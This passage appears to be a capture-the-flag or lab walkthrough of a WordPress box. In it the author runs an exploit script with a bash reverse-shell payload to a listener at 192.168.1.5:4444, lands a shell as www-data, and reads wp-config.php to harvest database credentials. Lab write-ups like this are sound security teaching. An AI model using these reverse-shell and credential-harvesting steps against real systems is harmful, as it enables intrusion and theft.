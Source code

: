 I set up a `netcat` listener on my attacking machine (Kali Linux) on port 4444:

```shellscript
nc -lnvp 4444
```

Then, I used the `51224.py` exploit script to send a reverse shell payload to the target:

```shellscript
python3 51224.py http://192.168.1.16 '/bin/bash -c "bash -i >& /dev/tcp/192.168.1.5/4444 0>&1"'
```

Upon execution, I received a reverse shell on my `netcat` listener:

```shellscript
Connection received on 192.168.1.16 57926
bash: cannot set terminal process group (678): Inappropriate ioctl for device
bash: no job control in this shell
www-data@relevant:~/html/wp-content/plugins/wp-file-manager/lib/files$
```

I was now connected as `www-data`.

### Post-Exploitation (as `www-data`)

#### WordPress Configuration File Analysis

I navigated to the WordPress root directory and examined the `wp-config.php` file for database credentials:

```shellscript
www-data@relevant:~/html/wp-content/plugins/wp-file-manager/lib/files$ cd /var/www/html
www-data@relevant:/var/www/html$ cat wp-config.php
```

**Contents of `wp-config.php` (relevant parts):**

```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'root' );

/** MySQL database password */
define( 'DB_PASSWORD', 'DidYouThinkItWouldBeThatEasy?TryHarder!' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

I found the database credentials: `DB_USER` as `root` and `DB_PASSWORD` as `DidYouThinkItWouldBeThatEasy?TryHarder!`.

I attempted to use these credentials to log into the MySQL server, but it failed, indicating these were likely for the database user `root` and not the system `root` user.

```shellscript
www-data@relevant:~/html$ mysql -u root -pDidYouThinkItWouldBeThatEasy?TryHarder!
ERROR 1698 (28000): Access denied for user 'root'@'localhost'
```
